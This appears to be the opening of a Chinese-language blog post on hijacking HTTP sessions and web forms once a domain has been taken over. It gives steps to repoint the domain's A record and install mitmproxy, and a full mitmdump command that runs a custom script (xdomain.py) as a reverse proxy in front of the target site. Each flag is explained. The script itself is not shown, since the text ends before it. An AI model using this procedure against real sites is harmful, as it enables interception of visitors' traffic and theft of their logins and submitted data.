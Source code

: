 `0x01 介绍`

这个一直觊觎很久了,原来F4ther演示的时候也想写一套Nginx反向代理表单劫持工具
后面看到3xp10it大佬介绍了就不想写了直接用就行了

本文记录一种在域名劫持后通过mitmproxy进行http会话劫持的利用脚本,该脚本通过mitmdump的反向代理工作模式进行流量劫持.

`0x02 操作`

1.通过修改域名的A记录来进行域名劫持

2.在域名的新A记录主机上安装mitmproxy:pip3 install mitmproxy

3.在域名的新A记录主机上运行: mitmdump --set allow_remote=true -—listen-host 0.0.0.0 -s xdomain.py --mode reverse:http://xxx.xxx.xxx:80 -p 80

        --listen-host代表本地监听ip
        --mode reverse代表以反向代理的模式进行工作
        --set allow_remote=true代表支持客户端访问的时候是通过代理访问的
        运行时需要需要上面命令中的http://xxx.xxx.xxx:80为目标网站地址,且修改下面代码中的http://xxx.xxx.xxx为目标网站地址


              
